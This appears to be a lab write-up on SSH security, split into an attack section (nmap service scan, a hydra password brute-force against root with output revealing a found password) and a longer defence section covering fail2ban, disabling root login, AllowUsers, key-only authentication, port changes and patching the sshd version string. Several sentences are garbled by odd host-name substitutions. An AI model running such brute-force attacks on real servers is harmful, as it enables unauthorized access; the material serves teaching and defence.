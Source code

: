 # Attack

## SSH Version Discovery

Check if mac.hx.is reachable:

```bash
ping -c3 demo.hx.local
```

Run fast nmap service scan:

```bash
nmap -sV -F demo.hx.local
```

Results will be like:

```bash
Nmap scan report for demo.hx.local (10.2.29.83)
Host is up (0.0035s latency).
Not shown: 98 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
3389/tcp open  ms-wbt-server xrdp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see OpenSSH 8.2p1 on Ubuntu server

## SSH Bruteforce

During the ping scan for demo.hx.local, we found the IP address:

```bash
ping -c3 demo.hx.local

10.2.29.83
```

Now we run hydra with a custom wordlist for bruteforcing ssh password for user `root` :

```bash
hydra -l root -P /root/Desktop/wordlists/passwords.txt 10.2.29.83 ssh
```

We find the following results:

```bash
[DATA] max 16 tasks per 1 server, overall 16 tasks, 90 login tries (l:1/p:90), ~6 tries per task
[DATA] attacking ssh://10.2.29.83:22/
[22][ssh] host: 10.2.29.83   login: root   password: abc_123321!@@@
1 of 1 target successfully completed, 1 valid password found
```


# Defend

## Hide OpenSSH version from nmap scans

We will edit the version details by editing sshd binary using hexedit and remove OpenSSH version string or even the name from the binary itself, aka binary patching:

```bash
cp /usr/sbin/sshd /tmp/
hexedit /tmp/sshd
```

Press `TAB` to access ASCII side of the hex editor and `CTRL+S` to search for string value, then type `OpenSSH` and Enter.

Rewrite the entire .hx.with `....` and press `CTRL+X` to save and exit. Press `Y` to confirm save and exit. Now replace the original sshd binary with patched binary:

```bash
cp /usr/sbin/sshd ~/Desktop/sshd_original.bak
cp /tmp/sshd /usr/sbin/
sudo service ssh restart
```

## Bruteforce Prevention - Fail2Ban

Enable fail2ban service:

```bash
systemctl enable fail2ban
```

Start fail2ban service:

```bash
systemctl start fail2ban
```

Check sshd jail status:

```bash
fail2ban-client status
```

## Block `root` Login

We will edit `sshd_config` file.
- Create a copy/backup of the config
- Change `PermitRootLogin` to `no` in config
- Restart ssh service

```bash
cp /etc/ssh/sshd_config /etc/ssh/sshd_config_original
nano /etc/ssh/sshd_config
service ssh restart
```

Trying to access as root for attacker will result in:

```bash
root@attackdefense:~# ssh root@10.2.29.83
The authenticity of host '10.2.29.83 (10.2.29.83)' can't be established.
ED25519 key fingerprint is SHA256:G5+SrVcs5gYpA7b/LGXMSF3pIYlBN2BdtZU0dJHkSy8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.2.29.83' (ED25519) to the list of known hosts.
root@10.2.29.83's password: 
Permission denied, please try again.
```

## Whitelist User Access

Only certain users will be allowed to login via to ssh. We create new users in the mac.hx.using:

```bash
adduser john
adduser david
```

Allow users against ssh IP address inside ssh config.
- Create a copy/backup of the config
- Allowusers addition: `AllowUsers john@10.2.29.83 someother@192.158.1.38`
- Restart ssh service

```bash
cp /etc/ssh/sshd_config /etc/ssh/sshd_config_original
nano /etc/ssh/sshd_config
service ssh restart
```

Notice that david is not allowed against the IP.

## SSH Keys instead of Passwords

On legit user mac.hx.generate a ssh key:

```bash
ssh-keygen
```

Login to john@10.2.29.83 ssh account:

```bash
ssh john@10.2.29.83
```

Copy the generated key to ssh mac.hx.

```bash
ssh-copy-id john@10.2.29.83
```

Perform SSH login again and login without password. Now we remove password authenticated completely from sshd_config on ssh server:

```bash
nano /etc/ssh/sshd_config
```

Set options:

```bash
PasswordAuthentication no
PubkeyAuthentication yes
```

## Change Default Port

Open sshd config and change port number to 2222 or anything else:

```bash
nano /etc/ssh/sshd_config
```

Change Option:

```bash
#Port 22
Port 2222
```
